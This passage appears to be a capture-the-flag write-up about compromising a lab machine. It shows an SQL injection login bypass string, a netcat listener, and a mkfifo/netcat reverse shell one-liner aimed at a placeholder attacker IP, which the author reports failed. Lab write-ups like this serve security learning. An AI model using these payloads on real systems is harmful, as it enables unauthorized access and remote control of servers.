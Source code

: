 Looking at the html source code (see a pattern here?) we see an interesting comment:

![](/reports/Avengers/image4.png)

SQLi stands for SQL injection and is a common problem that can have disastrous results in web servers. Thankfully, this vulnerability has been getting more publicized, and the frequency of successful attacks related to SQLi are decreasing.

Typing ‘ OR 1=1-- - in the username and password, we get in!

![](/reports/Avengers/image1.png)

So...the developer though it would be a good idea to allow users to directly interact with the server through commands? Too easy, let’s try an easy reverse shell using pentestmonkey ([http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet](https://www.google.com/url?q=http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet&sa=D&source=editors&ust=1653956340026229&usg=AOvVaw0wtnc8W3CDqlI9_pZsUQ9E))

On the attacker machine:

nc -lvnp <attacker port>

On the Jarvis command line:

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <attacker ip> <attacker port> >/tmp/f

Unfortunately, when we run this we receive an error message:

![](/reports/Avengers/image16.png)

So let’s just stick with harmless commands such as ls and cd so that we look around the files of this server. Let’s see which files are in the directory we are in.
